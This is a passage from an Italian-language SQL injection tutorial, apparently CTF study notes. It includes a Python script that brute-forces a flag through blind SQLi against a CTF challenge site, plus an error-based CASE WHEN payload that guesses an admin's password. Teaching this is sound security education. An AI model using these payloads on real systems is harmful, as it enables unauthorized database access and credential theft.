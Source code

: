 `findflag.py`
```py
from requests import *
from bs4 import BeautifulSoup
from string import digits, ascii_uppercase, ascii_lowercase

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = "______________________________________"
i = 0

while True:
    payloadEnd = payloadEnd[:-1]
    for c in digits + ascii_lowercase + ascii_uppercase + "!-@":
        payload = payloadStart + c + payloadEnd + "}"
        r = s.post(URL + "submit", data={"username": payload})
        soup = BeautifulSoup(r.text, "html.parser")
        if "We found a penguin" in soup.get_text():
            print("worked: ", payload)
            payloadStart += c
            break
        else:
            print("failed: ", payload)
    else:
        print("end: ", payload)
        break
```

### Error-based SQLi
In caso non avessimo a disposizione alcun output, abbiamo ancora delle alternative. La prima e più semplice è l'error-based SQLi. Se il sito restituisce un log o un feedback in caso di errore...

![SQL error](https://i.stack.imgur.com/9LEDu.png)

...possiamo ottenere informazioni come stessimo eseguendo una blind.

#### Dichiarazioni condizionali (conditional statement) - CASE WHEN
Mentre nell'esempio precedente di login avevamo un feedback, per il quale loggavamo in caso avessimo azzeccato il carattere, in questo caso siamo noi a mandare in errore il DBMS quando la nostra query soddisfa la condizione:

`Christian_C' UNION SELECT CASE WHEN (username='admin' AND password LIKE 'a%') THEN 1/0 ELSE 1 END FROM users -- `. Se la prima lettera della password dell'admin è `a`, verrà eseguita l'operazione 1/0, mandando in errore il DBMS, che ce lo mostrerà in output. Anche qui attenzione alle variazioni tra i vadi DBMS: la sintassi può essere diversa è in alcuni casi la divisione potrebbe non andare in errore.

### Time-based SQLi
Se sia l'output che gli errori non sono disponibili, è possibile effettuare un'SQLi basata sul tempo di risposta. In questi casi, quando la condizione viene soddisfatta, si fa in modo di ritardare la risposta del server. Il payload è molto simile a quello dell'error-based:
